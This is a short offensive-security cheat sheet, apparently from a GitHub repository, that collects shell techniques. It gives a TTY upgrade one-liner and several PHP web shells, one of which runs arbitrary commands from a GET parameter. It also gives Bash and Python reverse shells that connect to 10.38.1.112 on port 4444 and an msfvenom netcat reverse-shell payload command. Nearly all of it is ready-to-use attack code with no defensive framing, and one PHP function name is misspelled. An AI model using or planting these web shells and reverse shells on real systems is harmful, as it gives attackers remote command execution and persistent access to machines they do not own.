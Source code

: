 # Shells

## Upgrade shell

```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## Web Shell PHP

### POC
If you are unsure whether they are enabled on your system, the following will return a list of the dangerous functions that are enabled.
```php
<?php print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));?>
```

### Backtrick

```php
<?php system($_GET['cmd']);?>
'cmd' HTTP Request GET parameter -> e.g. "/shell.php?cmd=ls%20-la" 

<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>
```

### system()
```php
// Return the listing of the directory where the file runs (Windows)
<?php system("dir"); ?>

// Return the listing of the directory where the file runs (Linux)
<?php system("ls -la"); ?>
```

### exec()

```php
// Executes but returns nothing
<?php exec("ls -la"); ?>

// Executes, returns only last line of the output
<?php echo exec("ls -la"); ?>
```

### shell_exec()

```php
// Executes, returns the entire output as a string
<?php echo shell_exec("ls -la"); ?>
```

### passthru()

```php
// Executes, returns output in raw format
<?php passsthru("ls -la"); ?>
```


## Reverse Shells

### Bash

```console
bash -i >& /dev/tcp/10.38.1.112/4444 0>&1
```

### Python

```console
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.38.1.112",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## msfvenom

```console
$ msfvenom -p cmd/unix/reverse_netcat lhost=VPN-IP lport=1337 R
```